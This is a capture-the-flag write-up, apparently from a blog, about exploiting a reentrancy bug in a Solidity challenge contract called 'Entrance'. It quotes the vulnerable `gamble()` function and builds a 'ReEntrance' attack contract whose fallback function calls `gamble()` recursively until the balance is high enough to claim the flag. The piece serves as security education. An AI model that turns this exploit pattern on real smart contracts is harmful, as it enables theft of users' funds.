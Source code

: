 Both the challenge name *Entrance* and the hint *Can you enter? Again?* point in this direction. I found the great article [Reentrancy Attack On Smart Contracts: How To Identify The Exploitable And An Example Of An Attack Contract](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4) by Gustavo (Gus) Guimaraes. One could guess that the challenge author based the challenge on exactly that article...

So now my goal shifted to write my own contract to exploit the vulnerability, which lies in that whoever calls `Entrance.gamble()` will get called using the `call()` function after the balance is increased and **before** setting `has_played` to *true*, and is therefore allowed to run `gamble()` again, recursively until it has enough balance to run `getFlag()`.

{{< highlight solidity "linenos=table,linenostart=34,hl_lines=4 6 7" >}}
  function gamble() public onlyNewPlayer {
    require (balances[msg.sender] >= 10);
    if ((block.number).mod(7) == 0) {
      balances[msg.sender] = balances[msg.sender].add(10);
      // Tell the sender he won!
      msg.sender.call("You won!");
      has_played[msg.sender] = true;
    } else {
      balances[msg.sender] = balances[msg.sender].sub(10);
    }
  }
{{< /highlight >}}

I call my exploit contract *ReEntrance*. In the constructor I save the address to the Entrance contract (well I could have hard coded it) and the strings `server` and `port` where we want the flag to be sent:

{{< highlight solidity "linenos=table,linenostart=5,hl_lines=6-10" >}}
contract ReEntrance {
  Entrance public entrance;
  string server;
  string port;

  constructor (address _entrance, string _server, string _port) public {
    server = _server;
    port = _port;
    entrance = Entrance(_entrance);
  }
{{< /highlight >}}

From Gus' article we see that the secret to the exploit is to add a so called [fallback function](https://solidity.readthedocs.io/en/latest/contracts.html#fallback-function) to our exploit contract. It's an unnamed function which will be called when the Entrance contract runs `call()` on the sender, which will be our ReEntrance contract:

{{< highlight solidity "linenos=table,linenostart=39" >}}
      msg.sender.call("You won!");
{{< /highlight >}}

So let's add an unnamed function which calls `gamble()` again to trigger the recursion:

{{< highlight solidity >}}
  function () public payable {
    entrance.gamble();
    if (entrance.balanceOf(this) > 300) {
      entrance.getFlag(server, port);
    }
  }
{{< /highlight >}}
